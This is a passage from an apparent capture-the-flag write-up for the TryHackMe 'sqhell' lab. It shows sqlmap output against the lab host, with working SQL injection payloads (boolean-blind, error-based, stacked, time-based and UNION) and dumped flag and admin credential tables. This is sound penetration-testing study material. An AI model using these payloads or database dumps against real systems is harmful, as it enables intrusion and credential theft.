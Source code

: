 ```
┌──(kali㉿kali)-[~/TryHackMe/sqhell]
└─$ sqlmap -u http://sqhell.thm/post?id=1 --batch --dbs --dump
[...]
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 1354=1354

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: id=1 AND GTID_SUBSET(CONCAT(0x71626a6b71,(SELECT (ELT(6747=6747,1))),0x716b626b71),6747)

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: id=1;SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 8595 FROM (SELECT(SLEEP(5)))dcru)

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: id=-6095 UNION ALL SELECT NULL,NULL,CONCAT(0x71626a6b71,0x51576e6d79514c68484e4658587a77466a597958767a70465571684b677967544e5a59466c577973,0x716b626b71),NULL-- -
---
[...]
Database: sqhell_5
Table: flag
[1 entry]
+----+---------------------------------------------+
| id | flag                                        |
+----+---------------------------------------------+
| 1  | THM{FLAG5:[REDACTED]} |
+----+---------------------------------------------+
[...]
Database: sqhell_5
Table: users
[1 entry]
+----+----------+----------+
| id | password | username |
+----+----------+----------+
| 1  | password | admin    |
+----+----------+----------+
```

I get the **flag 5** and the user’s creds. However, when I submit the creds in the login form, it does not work as I expected
